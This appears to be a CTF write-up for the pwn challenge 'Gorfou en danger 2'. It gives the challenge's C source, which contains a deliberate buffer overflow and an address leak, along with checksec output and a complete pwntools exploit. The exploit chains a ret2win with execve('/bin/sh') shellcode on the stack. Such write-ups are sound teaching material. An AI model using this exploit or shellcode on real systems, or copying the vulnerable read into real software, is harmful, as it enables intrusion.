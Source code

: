 ```yaml
---
layout: post
title: Gorfou en danger 2
date: 06/06/2025
categories: [ctf, pwn]
tag: [pwn, ctf]
author: Paw
description: wu for the `Gorfou en danger 2`
---
```


```C
#include <unistd.h>
#include <stdlib.h>
#include <stdio.h>
#include <stdint.h>

int main(void);

void menu() {
    puts("      __                                                                       ");
    puts("     /\\ \\                                                                    ");
    puts("    /  \\ \\      >>========================================================<< ");
    puts("   / /\\ \\ \\     ||░█▀▄░█▀▀░█▀▀░█▀▀░░░█▀▀░█▀█░█▀█░█▀▀░█▀█░█░░░█▀▀░░░█░█░▀▀▄||");
    puts("  / / /\\ \\ \\    ||░█░█░█░█░▀▀█░█░█░░░█░░░█░█░█░█░▀▀█░█░█░█░░░█▀▀░░░▀▄▀░▄▀░||");
    puts(" / / /__\\_\\ \\   ||░▀▀░░▀▀▀░▀▀▀░▀▀▀░░░▀▀▀░▀▀▀░▀░▀░▀▀▀░▀▀▀░▀▀▀░▀▀▀░░░░▀░░▀▀▀||");
    puts("/ / /________\\  >>========================================================<<  ");
    puts("\\/___________/                                                                ");
}

void debug_info(void) { 
    // our very own "info proc map"
    printf("main address : %p\n", &main);
    printf("printf address : %p\n", *(uint64_t *)0x403008);
    void* local_var = NULL;
    printf("Stack address : %p\n", &local_var);
    return;
}

void take_command() {
    char command[0x100];
    
    printf("> ");
    read(0, command, 0x130);
    printf("Commande inconnue\n");
}

int main(void) {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    menu();

    printf("Terminal de contrôle à distance de la station orbilate Penrose\n");

    while (1) {
        take_command();
    }

    return 0;
}
```
In the challenge source code we can see a function called : `debug_info`

After a simple checksec we can see that NX protection is disable and there is no PIE :
```bash
    gorfou-en-danger-2 checksec --file=chall      
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   RW-RUNPATH   43 Symbols	 No	0		2		chall

```
An exploit model is given in the challenge. This model can generate shellcode, and it is not necessary to specify that this shellcode will be useful.

```C
void debug_info(void) { 
    // our very own "info proc map"
    printf("main address : %p\n", &main);
    printf("printf address : %p\n", *(uint64_t *)0x403008);
    void* local_var = NULL;
    printf("Stack address : %p\n", &local_var);
    return;
}
```

This function leak the stack adress. 

With the help of a little ret2win we will go to the `debug_info` function.

> we have already dealt with this subject

Sooo, we can stock the leak and then do a simple ret2shellcode

> : shellcode + some junk until the EIP/RIP adress + adress of the bottom of the stack 

wu: 
```python
from pwn import *

exe = ELF("./chall")
context.binary = exe

def conn():
    if args.LOCAL:
        r = process("./chall")
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = process("./chall")
    return r

def generate_shellcode():
    shellcode_asm = """
        xor     rdx, rdx
        movabs  rbx, 0x68732f6e69622fff
        shr     rbx, 8
        push    rbx
        mov     rdi, rsp
        xor     rax, rax
        push    rax
        push    rdi
        mov     rsi, rsp
        mov     al, 0x3b
        syscall 
        push    1
        pop     rdi
        push    0x3c
        pop     rax
        syscall 
	"""
    shellcode = asm(shellcode_asm, bits=64)
    return shellcode


def main():
    r = conn()
    r.recvuntil(b"> ")
    debug_addr = p64(0x00000000004004ed)
    main_addr = p64(0x0000000000400584)
    sc = generate_shellcode()
    offset = 264
    p1 = b'a'*offset + debug_addr + main_addr 
    r.sendline(p1)
    leak = r.recv().split(b' : ')

    main = int(leak[1].split(b'\n')[0][2:], 16)
    printf = int(leak[2].split(b'\n')[0][2:], 16)
    stack = int(leak[3].split(b'\n')[0][2:], 16)

    print(f'main={hex(main)}')
    print(f'printf={hex(printf)}')
    print(f'stack={hex(stack)}')
    
    pay = sc
    pay += b'a' * (offset - len(sc))
    pay += p64(stack - 0x100)
    r.sendline(pay)
    r.interactive()

if __name__ == "__main__":
    main()

```
